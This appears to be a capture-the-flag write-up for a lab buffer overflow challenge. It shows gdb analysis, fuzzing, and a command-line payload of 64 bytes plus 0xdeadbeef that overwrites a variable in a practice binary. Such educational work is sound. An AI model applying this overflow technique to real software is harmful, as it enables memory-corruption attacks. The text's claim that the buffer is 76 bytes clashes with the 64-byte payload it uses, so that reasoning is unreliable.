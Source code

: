 # ex05 - Buffer Overflow Exploitation

## Overview
The objective of this challenge is to manipulate a binary executable to change the value of a specific variable, ultimately triggering the message "you have hit the target correctly :)".

## Steps to Identify and Exploit the Vulnerability

### Initial Analysis
We started by identifying the type of the binary and looking for any useful strings within it:
```sh
file bin
strings bin 
```

This helped us understand the program's basic characteristics and locate any relevant messages or hints.

### Disassembly with GDB

Next, we used GDB to set breakpoints, run the program, and disassemble the binary:
```sh
`gdb bin
(gdb) break main
(gdb) run
(gdb) disassemble main
(gdb) disassemble vuln
```

By doing so, we found the `vuln` function and noted its structure.

### Finding the Buffer Size

We used trial and error to determine the buffer size that causes a segmentation fault, indicating overflow:

```sh

`./bin $(python -c "print 'A'*32")
./bin $(python -c "print 'A'*48")
./bin $(python -c "print 'A'*64")
./bin $(python -c "print 'A'*65")
./bin $(python -c "print 'A'*70")
./bin $(python -c "print 'A'*75")
./bin $(python -c "print 'A'*76")  # Causes a segmentation fault`
    
```

From this, we found that 76 bytes cause a segmentation fault, meaning the buffer size is 76.

### Crafting the Payload

We then crafted a payload that writes the target value `0xdeadbeef` at the correct location in memory:



```python
python -c "print 'A'*64 + '\xef\xbe\xad\xde'"
```

### Explanation

The payload worked because:

1.  **Buffer Size**: We filled the buffer with 64 'A' characters, which aligns with the start of the buffer.
2.  **Target Value**: `\xef\xbe\xad\xde` is the little-endian representation of `0xdeadbeef`, which is the value we need to set in the target variable.
3.  **Placement**: By placing `0xdeadbeef` right after the buffer, it correctly overwrites the target variable.

### Running the Exploit

We executed the binary with the crafted payload:

```sh
./bin $(python -c "print 'A'*64+'\xef\xbe\xad\xde'")
```

This command successfully triggered the message:

```sh
you have hit the target correctly :)
```
![Succsess Flag](./images/image.png)

Conclusion
----------

This exercise demonstrates the process of identifying a buffer overflow vulnerability, calculating the buffer size, and crafting a payload to manipulate program execution.

### Tools Used

-   `file`
-   `strings`
-   `gdb`
-   Python

### Educational Purpose

These methods and tools are used strictly for educational purposes to understand and protect against similar vulnerabilities.